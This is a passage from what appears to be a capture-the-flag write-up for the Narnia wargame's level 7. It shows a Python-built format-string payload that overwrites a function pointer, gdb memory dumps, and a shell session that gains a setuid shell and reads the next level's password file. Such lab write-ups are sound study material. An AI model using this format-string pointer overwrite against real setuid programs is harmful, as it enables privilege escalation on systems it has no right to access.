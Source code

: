 Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd899	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x08048706
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x20306536	0x20202020	0x20202020
0xffffd640:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd650:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd660:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd670:	0x20202020	0x20202020	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x00202020
(gdb) c
Continuing.
Way to go!!!!$
{{< / highlight >}}

And now we need to run it from the commandline to actually get a proper setuid shell

{{< highlight console >}}
narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
narnia7@melinda:/narnia$ .//narnia7 $(python -c "print 'aaaa\x1c\xd6\xff\xff' + '%x'*5 + '%134514399d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd61c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whomai
/bin/sh: 1: whomai: not found
$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8 
[password]
{{< / highlight >}}

Notice that the address of `ptrf` is not the same in the shell :)

## Level 08 ##
